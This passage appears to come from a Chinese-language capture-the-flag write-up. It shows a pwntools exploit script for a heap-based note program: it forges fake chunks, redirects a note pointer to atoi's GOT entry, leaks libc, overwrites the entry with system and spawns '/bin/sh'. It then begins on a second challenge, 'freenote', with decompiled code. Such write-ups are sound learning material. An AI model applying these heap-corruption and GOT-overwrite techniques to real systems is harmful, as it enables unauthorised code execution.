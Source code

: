     def editnote_overwrite(id,x):
        p.recvuntil('--->>')
        p.sendline('3')
        p.recvuntil('id')
        p.sendline(str(id))
        p.recvuntil('append')
        p.sendline('1')
        p.recvuntil(':')
        p.sendline(x)
    
    def shownote(id):
        p.recvuntil('--->>')
        p.sendline('2')
        p.recvuntil('id')
        p.sendline(str(id))


    p.recvuntil('name:')
    p.sendline('A'*0x30+p64(0)+p64(0x70))
    p.recvuntil('address:')
    p.sendline(p64(0)+p64(0x70))
    newnote(0x80,0x60*'B')
    editnote_append(0,'C'*0x20+p64(0x602120))#ptr_addr
    atoi_got = 0x602088
    newnote(0x60,p64(atoi_got))
    gdb.attach(p)
    shownote(0)
    p.recvuntil('is ')
    atoi_addr = u64(p.recvline().strip('\n').ljust(8, '\x00'))
    atoi_libc=libc.symbols['atoi']
    sys_libc=libc.symbols['system']
    system=atoi_addr-atoi_libc+sys_libc
    print "system="+hex(system)
    
    editnote_overwrite(0,p64(system))
    p.recvuntil('--->>')
    p.sendline('/bin/sh')
    p.interactive()

***3.freenote***

    _QWORD *init_env()
    {
      _QWORD *ori_large_chunk; // rax
      _QWORD *result; // rax
      signed int i; // [rsp+Ch] [rbp-4h]
    
      ori_large_chunk = malloc(0x1810uLL);
      addr_of_ori_lc = (__int64)ori_large_chunk;
      *ori_large_chunk = 0x100LL;                   // max
      result = (_QWORD *)addr_of_ori_lc;
      *(_QWORD *)(addr_of_ori_lc + 8) = 0LL;        // count
      for ( i = 0; i <= 255; ++i )
      {
        *(_QWORD *)(addr_of_ori_lc + 24LL * i + 16) = 0LL;// used
        // len
        *(_QWORD *)(addr_of_ori_lc + 24LL * i + 24) = 0LL;
        result = (_QWORD *)(addr_of_ori_lc + 24LL * i + 32);// addr
        *result = 0LL;
      }
      return result;
    }
程序在执行时，首先执行此函数，申请了一个0x1810大小的堆块，用于保存后续的堆栈信息，各个字段的意义都注释标明
主要的漏洞函数是delete函数：
